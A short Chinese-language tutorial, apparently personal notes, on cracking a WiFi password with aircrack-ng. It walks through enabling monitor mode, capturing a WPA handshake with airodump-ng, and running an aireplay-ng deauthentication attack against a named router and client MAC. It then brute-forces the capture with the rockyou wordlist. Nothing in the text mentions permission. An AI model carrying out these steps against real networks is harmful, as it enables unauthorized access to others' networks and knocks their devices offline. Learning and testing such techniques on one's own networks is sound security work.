 # 破解wifi

使用arimon-ng破解wifi密码

## 连接ALFA

使用虚拟机需要在services.msc里面打开vm usb枚举

![image-20221127165605734](image-20221127165605734.png)

插上ALFA之后

![image-20221127165637215](image-20221127165637215.png)

在这里选择

然后使用ifconfig查看是否有wlan0

![image-20221127165701490](image-20221127165701490.png)

## 抓包

使用`airmon-ng start wlan0`开启监听模式

![image-20221127165748808](image-20221127165748808.png)

`iwconfig`查看网卡信息

![image-20221127170424322](image-20221127170424322.png)

airodump-ng wlan0开始扫描wifi

![image-20221127170611927](image-20221127170611927.png)

抓取握手包

airodump-ng --bssid [mac地址] -c 信道 -w 包存放的位置 

![image-20221127171324314](image-20221127171324314.png)

开启另一个终端攻击其内网机器使其掉线，设备再次连接时候会发送我收吧，我方伪装成wifi热点去窃取数据包（哈希加密）

```
aireplay-ng -0 10 -a 20:6B:E7:23:60:EE -c CC:6B:1E:8B:E4:AF wlan0 --ignore-negative-one

-0 10  攻击十次
-a 指定路由器mac
-c 指定客户机mac
--ignore-negative-one 如果AP工作频道不确定加上，客户端MAC地址在之前通过airodump-ng获取。
```

![image-20221127172833164](image-20221127172833164.png)

显示这个则抓取成功

![image-20221127172412651](image-20221127172412651.png)



去文件夹下查看

![image-20221127172852273](image-20221127172852273.png)



## 破解

### gzip -d/usr/share/wordlists/rockyou.txt.gz

解压kali自带的字典

![image-20221127172919465](image-20221127172919465.png)

键入 aircrack-ng -w 字典路径 握手包路径（.cap）回车后开始爆破

![image-20221127172956202](image-20221127172956202.png)

开始爆破

![image-20221127173015502](image-20221127173015502.png)



























